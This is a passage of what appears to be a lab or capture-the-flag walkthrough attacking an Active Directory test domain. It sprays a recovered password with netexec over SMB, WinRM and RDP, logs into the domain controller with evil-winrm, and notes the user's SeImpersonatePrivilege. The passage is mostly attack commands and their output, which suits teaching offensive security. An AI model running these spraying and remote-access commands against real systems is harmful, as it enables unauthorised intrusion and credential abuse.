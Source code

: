 Spray the newly found PW:
```bash
# SMB
netexec smb 192.168.190.97 192.168.190.96 192.168.190.95 -u ad_users.txt -p 'Game2On4.!'
# SMB         192.168.190.96  445    ERA              [+] secura.yzx\charlotte:Game2On4.!
# SMB         192.168.190.95  445    SECURE           [+] secura.yzx\charlotte:Game2On4.!
# SMB         192.168.190.97  445    DC01             [+] secura.yzx\charlotte:Game2On4.!

netexec smb 192.168.190.97 192.168.190.96 192.168.190.95 -u ad_users.txt -p 'Game2On4.!' --local-auth
# Nope

# =====================================================================
# WinRM
netexec winrm 192.168.190.97 192.168.190.96 192.168.190.95 -u ad_users.txt -p 'Game2On4.!'
# WINRM       192.168.190.97  5985   DC01             [+] secura.yzx\charlotte:Game2On4.! (Pwn3d!)

netexec winrm 192.168.190.97 192.168.190.96 192.168.190.95 -u ad_users.txt -p 'Game2On4.!' --local-auth
# Nope

# =====================================================================
# RDP
netexec rdp 192.168.190.97 192.168.190.96 192.168.190.95 -u ad_users.txt -p 'Game2On4.!'
# RDP         192.168.190.95  3389   SECURE           [+] secura.yzx\charlotte:Game2On4.!
# RDP         192.168.190.96  3389   ERA              [+] secura.yzx\charlotte:Game2On4.!

netexec rdp 192.168.190.97 192.168.190.96 192.168.190.95 -u ad_users.txt -p 'Game2On4.!' --local-auth
# Nope
```

# DC01

Access as charlotte:
```bash
evil-winrm -i 192.168.190.97 -u charlotte -p 'Game2On4.!'
```

Looks like charlotte is not a local administrator but has SeImpersonatePrivilege:
```powershell
whoami /all

USER INFORMATION
----------------

User Name        SID
================ ==============================================
secura\charlotte S-1-5-21-3453094141-4163309614-2941200192-1104


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
```